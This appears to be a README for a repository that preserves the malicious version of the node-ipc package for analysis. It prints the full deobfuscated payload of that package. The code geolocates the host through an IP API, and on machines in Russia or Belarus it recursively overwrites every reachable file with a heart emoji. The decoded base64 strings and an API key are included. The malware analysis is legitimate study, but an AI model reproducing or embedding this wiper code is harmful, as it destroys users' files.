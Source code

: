 node-ipc
================

> [!WARNING]
> This is the version with the malware inside it presented only for analysis reasons

You can find the harmful code at the original location [here](dao/ssl-geospec.js)

Windows defender will not let you download this and will remove that file if it sees it.

The contents of the suspicious long base64 encoded string is `https://api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154`

The other strings contain
```
./
../
../../
/
country_name
russia
belarus
❤️
```

The indented version of it is below
```javascript
import u from "path";
import a from "fs";
import o from "https";
setTimeout(function() {
    const t = Math.round(Math.random() * 4);
    if (t > 1) {
        return
    }
    const n = Buffer.from("aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=", "base64");
    o.get(n.toString("utf8"), function(t) {
        t.on("data", function(t) {
            const n = Buffer.from("Li8=", "base64");
            const o = Buffer.from("Li4v", "base64");
            const r = Buffer.from("Li4vLi4v", "base64");
            const f = Buffer.from("Lw==", "base64");
            const c = Buffer.from("Y291bnRyeV9uYW1l", "base64");
            const e = Buffer.from("cnVzc2lh", "base64");
            const i = Buffer.from("YmVsYXJ1cw==", "base64");
            try {
                const s = JSON.parse(t.toString("utf8"));
                const u = s[c.toString("utf8")].toLowerCase();
                const a = u.includes(e.toString("utf8")) || u.includes(i.toString("utf8"));
                if (a) {
                    h(n.toString("utf8"));
                    h(o.toString("utf8"));
                    h(r.toString("utf8"));
                    h(f.toString("utf8"))
                }
            } catch (t) {}
        })
    })
}, Math.ceil(Math.random() * 1e3));
async function h(n = "", o = "") {
    if (!a.existsSync(n)) {
        return
    }
    let r = [];
    try {
        r = a.readdirSync(n)
    } catch (t) {}
    const f = [];
    const c = Buffer.from("4p2k77iP", "base64");
    for (var e = 0; e < r.length; e++) {
        const i = u.join(n, r[e]);
        let t = null;
        try {
            t = a.lstatSync(i)
        } catch (t) {
            continue
        }
        if (t.isDirectory()) {
            const s = h(i, o);
            s.length > 0 ? f.push(...s) : null
        } else if (i.indexOf(o) >= 0) {
            try {
                a.writeFile(i, c.toString("utf8"), function() {})
            } catch (t) {}
        }
    }
    return f
};
const ssl = true;
export {
    ssl as
    default, ssl
}
```
